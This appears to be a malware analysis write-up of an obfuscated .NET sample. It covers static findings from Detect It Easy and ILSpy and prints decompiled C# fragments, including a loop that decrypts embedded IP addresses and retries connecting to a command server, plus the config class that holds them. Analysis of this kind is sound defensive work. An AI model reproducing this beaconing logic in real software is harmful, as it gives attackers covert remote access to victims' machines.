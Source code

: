 Analysis of malware 1 – SHA256: 2a9cd95dea7e44cba7056a7a0f38c002399e9af16d0773462f2dd9bb487da8af

# Assumptions / Notes found with DIE (Detect It Easy)
1.1 DiE detects obfuscation in the executable, though the obfuscator is unknown. [confirmed in Static Analysis]

1.2 DiE does not detect any packing. [confirmed in Static Analysis]

1.3 Environment: .NET, C# → managed executable → CLR (Common Language Runtime) [confirmed in Static Analysis]

# Static and dynamic analysis with ILSpy
- EntryPoint: Program.Main.
- We can immediately confirm that the code is indeed written with C# using .NET → Assumption 1.3 confirmed
- Assumption 1.2 also confirmed since if the .exe was packed we wouldn’t see clear code
- Assumption 1.1 is also confirmed: function/variables/class/… names are obfuscated (simple obfuscation)

After manually checking the 3 lines inside the entry point, we see that what’s relevant is inside Application.Run(new Form1()). Form1() leads to Program2.WriteLine(); which leads to the heart of the malware. 

#### Code 1
```csharp
public static void WriteLine()
{
  try
  {
      if (!string.IsNullOrWhiteSpace(Arguments.Message))
      {
          Task.Factory.StartNew(() => MessageBox.Show(StringDecrypt.Read(Arguments.Message, Arguments.Key), "", MessageBoxButton.OK, MessageBoxImage.Hand));
      }
      ConnectionProvider connectionProvider = new ConnectionProvider();
      bool flag = false;
      while (!flag)
      {
          string[] array = StringDecrypt.Read(Arguments.IP, Arguments.Key).Split('|');
          foreach (string address in array)
          {
              if (connectionProvider.Id1(address))
              {
                  flag = true;
                  break;
              }
          }
          Thread.Sleep(5000);
```

#### Code 2
```csharp
[Obfuscation(ApplyToMembers = true, Exclude = true, StripAfterObfuscation = true)]
public static class Arguments
{
  public static string IP;
  public static string ID;
  public static string Message;
  public static string Key;
  public static int Version;

  static Arguments()
  {
```